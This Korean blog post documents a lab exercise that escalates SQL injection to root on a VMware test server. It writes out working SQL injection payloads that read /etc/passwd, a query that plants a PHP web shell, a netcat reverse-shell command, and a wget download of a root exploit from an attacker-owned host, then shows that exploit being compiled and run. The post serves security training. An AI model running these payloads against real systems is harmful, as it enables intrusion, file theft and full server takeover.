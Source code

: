 ```yaml
---
title: "SQL Injection 공격 실습"
categories:
  - Web
tags:
  - Web hacking
  - SQL Injection
  - netcat
  - webshell
comments: true
---
```


SQL Injection 공격을 통해 서버의 root 권한을 획득하는 방법에 대해 기술한다.

> 1. 실습 환경설정
> 2. SQL Injection 취약점 확인 (Blind SQL Injection, Union SQL Injection 이용)
> 3. MYSQL 권한으로, webshell 생성하기
> 4. nc 를 통한 reverse connection
> 5. exploit code 업로드 및 실행을 통한 권한상승


# 1. 실습 환경설정

VMware [Edit]-[Virtual Network Editor]-[VMnet8] 에서 다음과 같이 설정한다.
- Subnet IP : 10.10.10.0
- DHCP Settings - starting ip address : 10.10.10.5
- DHCP Settings - starting ip address : 10.10.10.254

VMware NAT 방식에서 공격대상과 공격자 IP는 다음과 같다.
- 공격대상 서버의 IP : 10.10.10.10
- 공격자 PC 의 IP : 10.10.10.1

<center><p><img src="/assets/2019-01-28-post-web_sql/1.1.jpg"><br>
<em>vmwware 설정</em></p></center>

<center><p><img src="/assets/2019-01-28-post-web_sql/1.2.png"><br>
<em>공격대상 서버 URL : 10.10.10.10/test/</em></p></center>

<center><p><img src="/assets/2019-01-28-post-web_sql/1.3.png"><br>
<em>서비스 계정(id : test, pw : test)</em></p></center>

# 2. SQL Injection 취약점 확인 (Blind SQL Injection, Union SQL Injection)

<center><p><img src="/assets/2019-01-28-post-web_sql/2.1.png"><br>
<em>서비스 계정(id : test, pw : test)</em></p></center>

로그인 이후, FREE BOARD, **USER BOARD(취약점 존재)**, Q&A BOARD, SERVICE BOARD 등 게시판에서 취약점이 있는지 여부를 확인한다.


## Blind SQL Injection
<p>
10.10.10.10/test/board.php?no=1 and 1=1 (TRUE)
10.10.10.10/test/board.php?no=1 and 1=0 (FALSE)
위 둘의 URL 실행결과가 다른 것을 통해 SQL Injection 공격 취약점이 존재하는 것을 파악할 수 있다.
</p>

<center><p><img src="/assets/2019-01-28-post-web_sql/2.2.png"><br>
<em>[10.10.10.10/test/board.php?no=1 and 1=1 결과화면]</em></p></center>

<center><p><img src="/assets/2019-01-28-post-web_sql/2.3.png"><br>
<em>[10.10.10.10/test/board.php?no=1 and 1=0 결과화면]</em></p></center>

## Union SQL Injection

> 1) 컬럼개수 파악하기
<p>
http://10.10.10.10/test/board.php?no=0 order by 1 --
http://10.10.10.10/test/board.php?no=0 order by 2 --
~
http://10.10.10.10/test/board.php?no=0 order by 8 -- 까지는 에러가 안뜬다.
http://10.10.10.10/test/board.php?no=0 order by 9 -- 부터 에러가 뜬다.  그러므로, 컬럼은 총 8개이다.
</p>

<center><p><img src="/assets/2019-01-28-post-web_sql/2.4.png"><br>
<em></em></p></center>


> 2) 각각의 컬럼 위치 확인하기
<p>
http://10.10.10.10/test/board.php?no=0 union select 1,2,3,4,5,6,7,8 --
</p>

<center><p><img src="/assets/2019-01-28-post-web_sql/2.5.png"><br>
<em></em></p></center>


> 3) Title 부분에 계정정보 출력하기
<p>
http://10.10.10.10/test/board.php?no=0 union select 1, load_file('/etc/passwd'),3,4,5,6,7,8 --
</p>

<center><p><img src="/assets/2019-01-28-post-web_sql/2.6.png"><br>
<em></em></p></center>


# 3. MYSQL 권한으로, webshell 생성하기

> MYSQL 권한으로 Webshell 생성

<div class="notice">
http://10.10.10.10/test/board.php?no=0 union select 1,"<?php system($_GET['cmd']); ?>",3,4,5,6,7,8 into outfile "/usr/local/apache/htdocs/test/shell.php" --
</div>

<center><p><img src="/assets/2019-01-28-post-web_sql/3.1.png"><br>
<em></em></p></center>

> Webshell 동작 확인

<p>
http://10.10.10.10/test/shell.php?cmd=ls
</p>
<center><p><img src="/assets/2019-01-28-post-web_sql/3.2.png"><br>
<em></em></p></center>

<p>
http://10.10.10.10/test/shell.php?cmd=ls  (nobody 권한인 것을 확인할 수 있다.)
</p>
<center><p><img src="/assets/2019-01-28-post-web_sql/3.3.png"></p></center>

# 4. nc 를 이용한 reverse connection

> 공격자 PC 에서 nc 실행 후, 응답대기

cmd 창 2개 생성
- cmd_1 : nc -l -p 33333, nc 프로그램이 33333 번 포트로 응답대기(33333번 포트는 임의로 설정)
- cmd_2 : netstat -na, 33333 포트가 응답대기인지 확인(프로그램이 제대로 실행되었는지 확인)
<center><p><img src="/assets/2019-01-28-post-web_sql/4.1.png"></p></center>

> Web 에서 nc 실행하여, 공격 대상 서버 -> 공격자 PC 로 연결 (reverse connection)

<p>
10.10.10.10/test/shell.php?cmd=nc -e /bin/sh 10.10.10.1 33333 (10.10.10.1 은 공격자 PC ip 주소)
다음과 같이 탭에서 계속 돌고 있는 상황이면 정상적으로 실행이 된 것이다.
</p>
<center><p><img src="/assets/2019-01-28-post-web_sql/4.2.png"></p></center>

> 연결확인

cmd_1 : id (계정정보 확인)

<center><p><img src="/assets/2019-01-28-post-web_sql/4.3.png"></p></center>


# 5. exploit code 업로드 및 실행을 통한 권한상승

> wget 을 통한 익스플로잇 코드 업로드

<p>
공격자 소유의 서버(10.10.10.20)에 있는 exploit code 를, 공격대상이 되는 서버에서 다운로드 하도록 한다. 
10.10.10.10/test/shell.php?cmd=wget http://10.10.10.20/exp.c
</p>
<center><p><img src="/assets/2019-01-28-post-web_sql/5.1.png"></p></center>

> Webshell 에서 exp.c 다운로드 확인

10.10.10.10/test/shell.php?cmd=ls -al
<center><p><img src="/assets/2019-01-28-post-web_sql/5.2.png"></p></center>

> NC 를 통해 (cmd_1)에서 확인
<center><p><img src="/assets/2019-01-28-post-web_sql/5.3.png"></p></center>

>  exploit code 컴파일 후 실행을 통한 권한상승

```1) gcc -o exp exp.c```
<center><p><img src="/assets/2019-01-28-post-web_sql/5.4.png"></p></center>

```2) ls -al```
<center><p><img src="/assets/2019-01-28-post-web_sql/5.5.png"></p></center>

```3) ./exp  ,  id```
<center><p><img src="/assets/2019-01-28-post-web_sql/5.6.png"></p></center>


이상으로 SQL Injection 공격을 이용한 root 권한 획득에 대해 알아보았다.

<br>

{% if page.comments %}

<div id="disqus_thread"></div>
<script>

/**
*  RECOMMENDED CONFIGURATION VARIABLES: EDIT AND UNCOMMENT THE SECTION BELOW TO INSERT DYNAMIC VALUES FROM YOUR PLATFORM OR CMS.
*  LEARN WHY DEFINING THESE VARIABLES IS IMPORTANT: https://disqus.com/admin/universalcode/#configuration-variables*/
/*
var disqus_config = function () {
this.page.url = PAGE_URL;  // Replace PAGE_URL with your page's canonical URL variable
this.page.identifier = PAGE_IDENTIFIER; // Replace PAGE_IDENTIFIER with your page's unique identifier variable
};
*/
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://https-c0msherl0ck-github-io.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>
                            
{% endif %}
